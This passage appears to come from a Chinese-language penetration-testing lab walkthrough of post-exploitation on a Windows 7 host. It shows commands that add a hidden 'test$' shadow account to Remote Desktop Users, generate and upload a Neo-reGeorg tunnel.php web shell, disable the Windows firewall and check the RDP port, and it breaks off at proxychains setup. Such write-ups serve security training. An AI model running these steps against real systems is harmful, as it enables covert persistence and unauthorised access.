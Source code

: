     ![](./img/11.png)
    可以看到添加的影子账号为 `test$/CNzS7Osurg`
    添加用户到远程桌面组
    `net localgroup "remote desktop users" test$ /add`
    生成代理 tunnel.php 并配置连接
    `python3 neoreg.py generate -k password`
    上传生成的 tunnel.php,进行连接
    `python3 neoreg.py -k password -u http://192.168.8.150/tunnel.php`
    ![](./img/12.png)
    关闭 win7 防火墙
    `netsh advfirewall set allprofiles state off`
    查看 3389 端口是否更改(由于 ShadowUser.exe 会帮我们开启3389,所以不用自己开)
    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber`         出来的结果是十六进制,默认为 0xd3d
    ![](./img/13.png)
    配置本地代理设置(/etc/proxychains.conf)